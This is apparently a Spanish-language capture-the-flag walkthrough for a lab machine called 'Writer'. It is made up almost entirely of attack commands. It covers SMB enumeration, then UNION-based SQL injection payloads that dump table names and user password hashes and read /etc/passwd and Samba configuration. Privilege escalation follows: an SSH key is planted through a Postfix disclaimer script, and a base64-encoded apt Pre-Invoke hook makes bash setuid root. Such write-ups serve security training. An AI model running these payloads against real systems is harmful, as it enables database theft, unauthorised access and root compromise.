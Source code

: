 ```yaml
---
layout: default
title: Writer
---
```

```bash
smbclient -L 10.10.11.101 -N --option='client min protocol=SMB2'
```

Manual SQLi - MySQL

ERROR: no retorna una única columna
```sql
' UNION select 1;-- -
```

Welcome 2
```sql
' UNION select 1,2,3,4,5,6;-- -
```

Welcome writer
```sql
' UNION select 1,database(),3,4,5,6;-- -
```

Welcome 10.3.29-MariaDB-0ubuntu0.20.04.1
```sql
' UNION select 1,version(),3,4,5,6;-- -
```

Sacar los nombres de todas las tablas
```sql
' union select 1,group_concat(table_name separator 0x3a),2,null,null,null FROM information_schema.tables --
```

Sacar nombres de columnas de una tabla
```sql
' union select 1,group_concat(column_name separator 0x3a),3,4,5,6 FROM information_schema.columns WHERE table_name='users';-- -
``` 

Extraer datos
```sql
' union select 1,group_concat(username,0x3a,password),2,null,null,null FROM users;-- -
```

Listar privilegios
```
' union select 1,(select group_concat(privilege_type separator 0x3a)),2,null,null,null from information_schema.user_privileges where grantee=user();-- -
```
```
' union select 1,(select group_concat(privilege_type separator 0x3a) from information_schema.user_privileges where grantee=user()),2,null,null,null;-- -
```

Es Administrador
```
' union select 1,current_user,2,null,null,null;-- -
```

Leer archivos
```sql
' union select 1,load_file('../../../../../../etc/passwd'),2,null,null,null FROM information_schema.tables -- -
```

```sql
' union select 1,load_file('../../../../../../etc/samba/smb.conf'),2,null,null,null FROM information_schema.tables -- -
```

# **Postfix**

[25,465,587 - Pentesting SMTP/s - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html#postfix)

Ejecuta
```
/etc/postfix/master.cf
```

Que ejecuta

```
/etc/postfix/disclaimer
```

Metemos esta línea
```
echo "pubkey kyle" >> /home/john/.ssh/authorized_keys
```

```bash
find / -group management 2>/dev/null | grep -v -e '^/run' -e '^/sys' -e '^/proc'
```
# **Management group**

apt update

```bash
echo '/bin/bash -c "/usr/bin/chmod u+s /bin/bash"' | base64 -w0
```

```bash
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvdXNyL2Jpbi9jaG1vZCB1K3MgL2Jpbi9iYXNoIgo= | base64 -d | bash"};' > 000-shell
```

